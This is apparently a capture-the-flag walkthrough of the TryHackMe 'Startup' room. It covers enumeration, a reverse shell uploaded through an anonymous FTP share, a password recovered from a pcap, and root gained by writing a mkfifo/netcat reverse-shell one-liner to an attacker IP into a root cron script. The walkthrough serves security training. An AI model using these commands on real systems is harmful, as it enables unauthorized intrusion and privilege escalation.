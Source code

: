# [Challenge](https://tryhackme.com/room/startup)

- # ENUM
	- ### nmap (` nmap -A -p- -T4 startup`):
		- ```PORT   STATE SERVICE VERSION
			21/tcp open  ftp     vsftpd 3.0.3
			| ftp-anon: Anonymous FTP login allowed (FTP code 230)
			| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
			| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
			|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
			| ftp-syst: 
			|   STAT: 
			| FTP server status:
			|      Connected to 10.9.1.212
			|      Logged in as ftp
			|      TYPE: ASCII
			|      No session bandwidth limit
			|      Session timeout in seconds is 300
			|      Control connection is plain text
			|      Data connections will be plain text
			|      At session startup, client count was 4
			|      vsFTPd 3.0.3 - secure, fast, stable
			|_End of status
			22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
			| ssh-hostkey: 
			|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
			|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
			80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
			|_http-title: Maintenance
			|_http-server-header: Apache/2.4.18 (Ubuntu)
			Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
	- ### gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -x .txt,.html,.css,.js,.php -u http://startup -t 100`)
		- #### DIRECTORIES
			- `/files`
		- #### FILES
			- `/index.html`

- # EXPLOITATION
	- `http://startup/files/` -> Among Us meme in the big 2k25 🥀
		- ```Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
	- Ok, let's login into anonymous FTP and try to put a reverse shell in `/ftp` directory (we have the permissions). Obviously, we need to listen on our machine (`nc -lvnp 4444`)
		- Nice, now we have a reverse shell!
			- `/recipe.txt`: `Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.`

- # PRIVILEGE ESCALATION
	- There's a pcapng file: `/incidents/suspicious.pcapng`, let's put it into `/var/www/html/files/ftp/`.
		- There's Lennie's password: `c4ntg3t3n0ughsp1c3`
	- Spawn a `/bin/bash` shell (`python -c "import pty; pty.spawn('/bin/bash')")
	- There's an hidden cronjob (discovered thanks to `pspy`) that is runned every minute: `/etc/print.sh`
		- `2025/08/19 11:32:01 CMD: UID=0     PID=27365  | /bin/bash /etc/print.sh`
			- We can also see some scripts in the `/home/lennie/script` folder and another one in `/etc/print.sh`. Let's modify the last one (since we have the write permissions, 'cause the owner is Lennie): `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.212 8888 >/tmp/f` -> `nc -lnvp 8888`
				- Let's wait a minute and...
					- We're ROOT!
